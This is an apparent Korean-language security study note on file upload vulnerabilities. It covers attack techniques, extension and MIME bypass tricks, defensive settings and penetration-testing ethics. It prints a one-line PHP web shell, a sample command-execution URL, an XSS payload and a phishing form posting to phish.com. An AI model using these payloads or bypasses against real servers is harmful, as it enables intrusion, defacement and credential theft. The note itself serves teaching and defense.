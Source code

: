 # File Upload Vulnerability

`File Upload Vulnerability`는 공격자가 서버에 임의의 악성 파일을 업로드할 수 있는 취약점을 의미한다.<br>
검증 없이 파일을 수용할 경우, 서버 내 코드 실행, 정보 탈취, 웹사이트 변조 등 **다양한 2차 공격**으로 이어질 수 있다.<br>
파일 실행 결과나 응답을 직접 확인하지 않더라도, 업로드 위치와 실행 권한을 확인함으로써 **치명적인 보안 위협**을 유발할 수 있다.

---

## 주요 기법

| 기법              | 설명                                                                 |
|------------------|----------------------------------------------------------------------|
| **웹쉘 업로드**   | `.php`, `.jsp` 등의 서버 실행 스크립트를 업로드하여 명령어 실행   | 
| **피싱 파일 업로드**     | 로그인 페이지로 위장한 HTML 파일을 업로드하여 사용자를 속임 |
| **디페이스 공격**     | `index.html` 등 주요 페이지를 덮어씌워 웹사이트를 변조 |
| **Stored XSS**     | HTML/JS가 삽입된 파일을 업로드하여 스크립트 공격 실행 |
| **DoS 공격**     | 초대형 파일 다량 업로드로 서버 자원 고갈 | 

---

## 공격 흐름 및 예시 절차
1. **업로드 기능 탐지**
2. **허용 확장자 확인 및 우회 시도**
3. **업로드 후 저장 경로 파악**
4. **웹쉘 실행 확인 및 명령 수행**
5. **파일 내부 코드 삽입 또는 변조**
6. **그 외 XSS/피싱/DOS 확장 공격**

---

## 웹쉘 업로드 예시

```php
<!-- shell.php -->
<?php system($_GET['cmd']); ?>
```

업로드 성공 후 다음과 같이 명령 실행:
```bash
http://target.com/uploads/shell.php?cmd=whoami
```
`.php`, `.jsp`, `.asp`, `.phtml`, `.php3`, `.php5` 등의 다양한 확장자 우회를 시도할 수 있음.

---

## 파일 우회 및 위장 기법

| 우회방식                         | 설명 |
|------------------------------|----------------|
| 확장자 대소문자 우회                 | `.PhP`, `.pHp`, `.phtml` 등으로 필터 우회 시도 |
| 이중 확장자 사용               | `shell.jpg.php` 또는 `image.php%00.jpg` 등 우회 기법 사용 |
| MIME Type 위장          | `Content-Type: image/jpeg` 등으로 위장하고 실제 내용은 PHP 코드로 구성 |
| 그림 웹쉘    | 실제 이미지에 웹쉘 삽입 (hex editor 사용) |
| 경로 조작  | `../../` 등을 통해 저장 경로를 변경하거나 시스템 파일 경로 접근 시도 |

---

## 방어 방법 및 보안 설정

| 대응 방법                 | 설명                                               |
| --------------------- | ------------------------------------------------ |
| **파일 확장자 화이트리스트**     | 이미지 등 필요한 파일만 업로드 허용 (예: `.jpg`, `.png`, `.pdf`) |
| **MIME Type 검사**      | 서버 측에서 `Content-Type` 확인 및 클라이언트 조작 탐지           |
| **실행권한 제거**           | 업로드 경로(`uploads`)를 실행 경로에서 분리하고 웹서버 실행 권한 제거     |
| **파일명 무작위화 및 경로 은닉**  | 파일명은 UUID 등 난수화, 경로는 외부에서 추측 불가능하도록 구성           |
| **파일 시그니처 검사**        | 확장자가 아닌 파일 헤더(Magic Number)를 기준으로 실제 포맷 확인       |
| **사이즈 제한 및 업로드 수 제한** | 대용량 DoS 공격 방지용 업로드 용량 제한 설정                      |

---

## 자주 사용하는 업로드 파일 예시

| 목적              | 파일 내용 예시                                     |
| --------------- | -------------------------------------------- |
| PHP 웹쉘          | `<?php system($_GET['cmd']); ?>`             |
| XSS 파일          | `<script>alert(1)</script>`                  |
| 피싱 HTML 페이지     | `<form action="http://phish.com">...</form>` |
| 업로드 테스트 (더미 파일) | 빈 텍스트 파일, 1x1 png 이미지 등                      |

---

## 공격 시 유의사항 (모의해킹 관점)
- 실제 **웹쉘 실행은 절대 금지** (정당한 허가 없는 경우 불법)
- **업로드 가능 여부와 실행 가능 여부**만 판단한 후, 테스트 파일 즉시 삭제
- 파일 업로드 성공 후에는 **파일 접근 경로 확인만 수행**
- 자동화 도구 사용 시, **로그 남김/서버 부하 유의**
- 보안 감사에서는 **접근 경로, 실행 여부, 응답 메시지 차이 분석** 위주로 진행

## 정리

> `File Upload Vulnerability`는 단순한 파일 전송 기능처럼 보이지만, **웹쉘 실행, XSS, DoS, 피싱** 등 **광범위한 공격으로 연결**될 수 있는 심각한 보안 취약점이다.

> 특히 실행 권한과 경로 노출이 조합될 경우 **서버 전체를 장악**하는 일이 발생할 수 있으므로, **확장자 및 MIME 검증, 실행 차단** 등 복합적인 보안 조치가 필수적이다.

> 테스트 시에는 반드시 **모의해킹 윤리 준수**와 **행위 범위 제한**을 명확히 해야 한다.

## 참고 사이트
>[SegaFalut Academy](https://academy.segfaulthub.com/ "nomaltic 해킹 강의")

<hr />